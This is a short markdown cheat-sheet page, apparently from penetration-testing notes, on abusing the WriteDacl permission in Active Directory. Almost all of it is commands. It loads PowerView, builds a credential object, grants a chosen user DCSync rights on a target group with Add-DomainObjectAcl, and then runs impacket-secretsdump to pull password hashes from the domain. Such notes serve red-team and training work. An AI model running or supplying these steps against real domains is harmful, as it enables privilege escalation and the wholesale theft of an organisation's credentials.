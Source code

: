 ```yaml
---
title: "WriteDacl"
date: 2024-7-12
tags: ["WriteDacl", "active driectory", "ad", "Windows", "dcsync", "secretsdump"]
---
```


---
### Abuse #1: Add dcsync right to user

#### 1. Import PowerView.ps1 

```powershell
. .\PowerView.ps1
```

#### 2. Create cred object (runas) \[optional\]

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add dcsync right

```powershell
Add-DomainObjectAcl -PrincipalIdentity <USER> -TargetIdentity '<DOMAIN>\<TARGET_GROUP>' -Rights DCSync -Credential $cred
```

### 4. Secrets dump

```bash
impacket-secretsdump <USER>:<PASSWORD>@<TARGET>
```

<br>